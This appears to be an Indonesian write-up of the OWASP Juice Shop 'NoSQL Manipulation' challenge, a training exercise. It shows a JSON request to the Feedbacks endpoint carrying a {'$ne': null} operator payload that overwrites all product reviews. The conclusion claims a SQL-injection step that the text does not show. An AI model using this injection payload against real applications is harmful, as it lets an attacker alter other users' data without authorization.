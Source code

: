 # Juice Shop Write-up: Nosql Manipulation

## 🎯 Challenge Overview
**Platform:** OWASP Juice Shop  
**Category:** Injection / Data Manipulation  
**Difficulty:** ⭐⭐⭐⭐ (4/6)  

Tujuan challenge ini adalah mengeksploitasi SQL Injection untuk menemukan produk tersembunyi (Christmas Offer) serta memodifikasi review produk melalui manipulasi request.

---

## 🛠 Tools Used
- Web Browser (Chrome / Firefox)
- Developer Tools (Inspect / Network)
- Burp Suite (untuk intercept & modify request)
- JSON Request Editing

---


## 📝 Step 1: Manipulating Product Reviews
ditemukan celah manipulasi review.

1. Kirim review baru via request JSON:  

```http
POST /api/Feedbacks/
{
  "id":"dNXyHLQxzAi8edmyG",
  "message":"One of my favorite"
}
```

<img width="967" height="447" alt="image" src="https://github.com/user-attachments/assets/04d7ca89-3aed-40c3-b124-1f4dcc957035" />


2. Ubah request di Burp Suite untuk **mengedit semua komentar**.  
   Contoh payload:

```http
{
  "id": {
    "$ne": null
  },
  "message": "Kami Ubah Semua Komentar!"
}
```

<img width="1494" height="837" alt="image" src="https://github.com/user-attachments/assets/72dd4504-c57d-4d6a-9d1d-e245a3cb5c45" />


3. Hasilnya, seluruh review berubah:  

<img width="626" height="288" alt="image" src="https://github.com/user-attachments/assets/bced9273-2d16-46ed-8b1d-0be64d7414fa" />

---

## 🏁 Conclusion
- Berhasil mengeksploitasi **SQL Injection** untuk menemukan dan membeli produk tersembunyi (Christmas Offer).  
- Berhasil melakukan **mass review manipulation** dengan JSON injection di endpoint Feedback.  

---
